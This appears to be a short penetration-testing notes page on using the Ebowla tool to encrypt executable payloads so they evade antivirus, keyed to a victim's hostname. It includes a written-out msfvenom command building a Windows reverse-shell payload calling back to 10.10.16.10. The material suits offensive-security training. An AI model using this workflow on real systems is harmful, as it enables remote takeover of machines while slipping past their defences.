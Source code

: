 # Ebowla

## Ebowla **usage**

{% embed url="https://github.com/Genetic-Malware/Ebowla" %}

* **Get Ebowla AV evasion \(encrypt the executable payload with environment variables\)**

`git clone https://github.com/Genetic-Malware/Ebowla`

* Modify the output \(generic.config\)

`root@thp3:/opt/Ebowla# vi genetic.config`

![](../../../.gitbook/assets/f7ff2ba19cc8e5563355bebc01caa0ff.png)

![](../../../.gitbook/assets/c94a16abc44501ccfe7ca5072bbfe0aa.png)

* Check victim hostname:

![](../../../.gitbook/assets/abafbc04d8c405fb352e10dce0afedc2.png)

* Edit generic.config

![](../../../.gitbook/assets/f87f05d20fc05a32025ecd00d74457ec.png)

**to**

![](../../../.gitbook/assets/914207f9637660341d8e2adae863e566.png)

* Create a msfvenom payload \(staged -&gt; can be used with netcat ...\)

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=80 -a x64 -f -o shell80.exe`

* Encode the payload with Ebowla :

![](../../../.gitbook/assets/e512e3ccfe2a3f2249f383df6de4f4ce.png)

![](../../../.gitbook/assets/6b325910b98a8017c240dbf429a9c0f2.png)

